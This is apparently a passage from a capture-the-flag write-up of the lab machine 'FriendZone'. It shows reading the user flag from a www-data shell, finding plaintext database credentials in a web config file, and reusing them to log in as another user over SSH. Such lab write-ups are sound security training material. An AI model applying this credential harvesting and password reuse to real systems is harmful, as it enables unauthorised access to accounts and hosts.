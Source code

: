 The shell runs under the user context of www-data.

## User Flag

---

I should be able to read the user flag:

```bash
www-data@FriendZone:/var/www/admin$ cd /home
www-data@FriendZone:/home$ ls
friend
www-data@FriendZone:/home$ cd friend/
www-data@FriendZone:/home/friend$ ls
user.txt
www-data@FriendZone:/home/friend$ cat user.txt
a9**************************9a11
```

# Privesc

---

## www-data → friend

---

I searched through the web directory and found this mysql config file:

```bash
www-data@FriendZone:/var/www$ ls
admin       friendzoneportal       html             uploads
friendzone  friendzoneportaladmin  mysql_data.conf
www-data@FriendZone:/var/www$ cat mysql_data.conf 
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```

I try to login to SSH, because this user also exists on the system (`friend:Agpyu12!0.213$`):

```bash
┌──(user㉿KaliVM)-[/tools/LinPEAS]
└─$ ssh friend@friendzone.red                      
The authenticity of host 'friendzone.red (10.10.10.123)' can't be established.
ECDSA key fingerprint is SHA256:/CZVUU5zAwPEcbKUWZ5tCtCrEemowPRMQo5yRXTWxgw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Permanently added 'friendzone.red,10.10.10.123' (ECDSA) to the list of known hosts.
friend@friendzone.red's password: 
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
You have mail.
Last login: Thu Jan 24 01:20:15 2019 from 10.10.14.3
friend@FriendZone:~$
```